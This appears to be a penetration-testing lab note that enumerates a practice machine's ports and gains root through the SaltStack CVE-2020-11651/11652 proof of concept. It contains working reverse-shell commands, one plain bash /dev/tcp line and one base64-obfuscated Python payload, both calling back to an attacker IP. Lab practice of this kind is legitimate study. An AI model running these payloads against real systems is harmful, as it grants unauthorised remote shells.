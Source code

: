 Linux ttl=61

# rustscan

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
53/tcp open  domain  syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

# nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
8000/tcp open  http    nginx 1.16.1
```

### full nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
```

with full nmap got `4506` as well

# initial/priv esc

has only 1 user

just searched what I got from nmap

![[Pasted image 20240615131834.png]]

```
2020-11652 2020-11651  exploit
```

CVE search because other exploits were not working

![[Pasted image 20240615131937.png]]

https://github.com/jasperla/CVE-2020-11651-poc

### check ping back

checked with [[check rce cmd exe or get ping back]]

### root

```
python3 exploit.py --master 192.168.165.62 --exec "/bin/bash -i >& /dev/tcp/192.168.45.214/8000 0>&1"
```

![[Pasted image 20240615132337.png]]

### for base64

```
python3 exploit.py --master 192.168.165.62 --exec 'echo "cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC40NS4yMTQiLDgwMDApKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/sh'
```

[[base64 cmd exec]]